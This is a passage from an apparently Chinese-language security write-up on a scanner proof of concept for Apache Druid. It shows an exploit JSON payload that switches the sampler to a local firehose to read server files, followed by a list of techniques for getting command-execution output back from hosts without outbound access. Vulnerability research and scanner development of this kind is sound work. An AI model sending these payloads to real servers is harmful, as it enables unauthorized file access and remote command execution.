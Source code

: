 ```json
		"tuningConfig": {
			"type": "index"
		}
	},
	"samplerConfig": {
		"numRows": 500,
		"timeoutMs": 15000
	}
}
```

修改POC,`inputSource`改成`firehose`,`inputFormat`新版才有，为了兼容老版本去除。使用`parser`去解析文件
```java
{
      	"type": "index",
      	"spec": {
      		"ioConfig": {
      			"type": "index",
      			"firehose": {
      				"type": "local",
      				"baseDir": "/xxx",
      				"filter": "xxx"
      			}
      		},
      		"dataSchema": {
      			"dataSource": "%%DATASOURCE%%",
      			"parser": {
      				"parseSpec": {
      					"format": "json",
      					"timestampSpec": {},
      					"dimensionsSpec": {},
      				}
      			}
      		}
      	},
      	"samplerConfig": {
      		"numRows": 10
      	}
      }
```

### 曲折的命令回显
作为扫描器的POC要兼容新老版本，还要做到精准检测，单单的命令执行没有回显肯定不行（要考虑不出网的情况）

回显思路
1. 获取全局的request，response,来修改当前CurrentThread的resposne内容
2. 报错回显
3. 写入文件，读取文件
4. linux socket的文件描述符（Druid不能在windows安装）
5. .....

#### 读写文件回显法

